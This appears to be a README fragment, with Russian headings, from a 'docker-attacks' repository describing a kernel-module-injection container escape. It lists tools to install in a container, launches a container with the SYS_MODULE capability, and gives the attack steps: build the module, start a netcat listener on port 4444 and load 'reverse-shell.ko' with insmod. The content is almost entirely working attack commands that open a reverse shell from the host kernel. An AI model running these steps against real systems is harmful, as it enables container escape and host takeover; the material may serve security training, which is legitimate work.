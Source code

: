 Ставим зависимости в контейнер
```bash
apt install make
apt install -y vim # or any other editor
apt install -y netcat
apt install -y gcc
# Container should run with the same operating system version as the host.
# Get the kernel version by ‘uname -r’
version=$(uname -r)
apt install -y linux-headers-$version
apt install -y kmod
apt install net-tools
```

Запуск уязвимого контейнера
```bash
docker run -it --cap-add=SYS_MODULE ubuntu:latest bash
```

Атака
```bash
git clone <this repo>
cd docker-attacks/attack_4 - Kernel Module injection
make
nc -lnvp 4444 & /usr/sbin/insmod reverse-shell.ko
```